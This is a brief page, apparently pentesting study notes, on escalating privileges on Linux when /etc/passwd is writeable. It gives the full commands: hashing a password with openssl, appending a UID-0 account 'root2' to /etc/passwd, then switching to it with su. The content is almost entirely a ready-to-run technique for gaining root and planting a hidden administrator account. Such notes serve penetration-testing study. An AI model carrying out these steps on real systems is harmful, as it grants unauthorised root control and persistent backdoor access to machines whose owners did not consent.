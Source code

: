 # /etc/passwd

If /etc/passwd is **writeable**:

{% code overflow="wrap" %}
```sh
joe@debian-privesc:~$ openssl passwd w00t
Fdzt.eqJQ4s0g

joe@debian-privesc:~$ echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```
{% endcode %}

then su as root2 with specified password
